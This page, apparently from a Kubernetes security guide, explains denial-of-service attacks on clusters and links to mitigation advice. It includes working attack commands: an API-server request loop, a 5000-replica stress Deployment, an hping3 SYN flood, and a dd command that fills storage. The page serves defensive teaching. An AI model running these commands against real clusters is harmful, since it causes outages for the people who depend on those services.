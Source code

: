 ```yaml
---
sidebar_position: 13
title: "Denial of Service (DoS) Attacks"
description: "How attackers exploit Kubernetes resources to exhaust system capacity, disrupt workloads, and cause service outages."
---
```


# Denial of Service (DoS) Attacks

A **Denial of Service (DoS) attack** targets a Kubernetes cluster by **exhausting system resources, overloading the API server, or overwhelming network capacity**. These attacks can cause **service downtime, degraded performance, and complete cluster unavailability**.

---

## Exploitation Steps: Overloading Cluster Resources

An attacker generates **excessive traffic, high CPU usage, or memory exhaustion** to disrupt Kubernetes workloads.

### Step 1: Flood the Kubernetes API Server

An attacker repeatedly sends API requests to **overload the control plane**:

```bash
while true; do kubectl get pods --all-namespaces; done
```

If **unauthenticated API access** is allowed, this can cause **latency spikes and request failures**.

### Step 2: Deploy Resource-Exhausting Pods

If **resource limits** are not enforced, the attacker deploys multiple high-consumption pods:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: overload-pods
spec:
  replicas: 5000
  template:
    spec:
      containers:
        - name: stress-container
          image: polinux/stress
          command: ["stress"]
          args:
            [
              "--cpu",
              "4",
              "--io",
              "4",
              "--vm",
              "4",
              "--vm-bytes",
              "128M",
              "--timeout",
              "300s",
            ]
```

```bash
kubectl apply -f overload-pods.yaml
```

Without **Pod Resource Limits**, the cluster experiences **CPU and memory starvation**.

### Step 3: Exploit Insecure Network Policies

If **network policies** are missing, the attacker floods a Kubernetes Service with **large requests**:

```bash
hping3 -S -p 443 <service-ip> --flood
```

This **overwhelms** the target service, causing delays and timeouts.

### Step 4: Abuse Persistent Storage

If **storage quotas** are missing, the attacker fills up available storage:

```bash
dd if=/dev/zero of=/mnt/persistent-volume/attack bs=1M count=100000
```

Once storage reaches **100% capacity**, workloads that rely on persistence **fail or crash**.

### Result

The attacker successfully **disrupts Kubernetes services**, leading to **downtime, increased latency, and operational failures**.

---

## Mitigation Steps

To protect against **Denial of Service (DoS) attacks**, follow the security best practices outlined in:

➡ **[Mitigating DoS Attacks in Kubernetes](/docs/best_practices/cluster_setup_and_hardening/network_security/ddos_mitigation)**

This guide covers techniques such as **rate limiting, API request quotas, network policy enforcement, resource limits, and autoscaling defenses** to prevent Kubernetes disruptions.
